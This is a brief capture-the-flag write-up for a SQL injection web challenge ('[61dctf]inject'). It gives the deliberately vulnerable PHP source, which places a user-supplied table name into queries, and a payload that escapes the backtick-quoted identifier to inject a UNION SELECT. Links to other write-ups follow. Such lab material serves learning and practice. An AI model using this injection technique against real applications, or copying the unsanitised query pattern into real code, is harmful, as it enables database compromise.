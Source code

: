 # Challenge 
```php 
<?php
require("config.php");
$table = $_GET['table']?$_GET['table']:"test";
$table = Filter($table);
mysqli_query($mysqli,"desc `secret_{$table}`") or Hacker();
$sql = "select 'flag{xxx}' from secret_{$table}";
$ret = sql_query($sql);
echo $ret[0];
?>
```





## payload

```
?table=test`  ` where 1=2 union+select%20 1
```



# Refference 

+ [jarvisoj : [61dctf]inject　](http://web.jarvisoj.com:32794/)
+ [chybeta : [61dctf]inject](https://chybeta.github.io/2017/07/05/jarvisoj-web-writeup/#61dctf-inject)
+ https://blog.csdn.net/qq_35078631/article/details/77284684